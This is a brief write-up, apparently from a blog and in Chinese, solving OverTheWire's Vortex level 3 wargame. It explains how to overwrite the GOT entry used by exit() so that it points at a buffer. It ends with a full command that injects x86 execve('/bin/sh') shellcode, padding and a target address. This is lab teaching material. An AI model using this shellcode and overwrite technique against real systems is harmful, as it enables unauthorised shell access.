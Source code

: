 ```yaml
---
title: vortex3
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

这道题用的是exit，所以不能通过修改返回地址来做了

但从提示也可以看出要修改got之类的。具体看反汇编的代码，最后exit是`call 0x8048320`，进去看，那里是`jmp *0x08049738`。我们可以修改0x08049738处的值为buf, 再将shellcode放在buffer里即可

具体地，地址0x08049738保存在0x08048322处，而buf与lpp相距132。故

<pre>$ /vortex/vortex3 `perl -e 'print "\x31\xc0\x50\x89\xe2\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80" . "A"x107 . "\x22\x83\x04\x08"'`</pre>
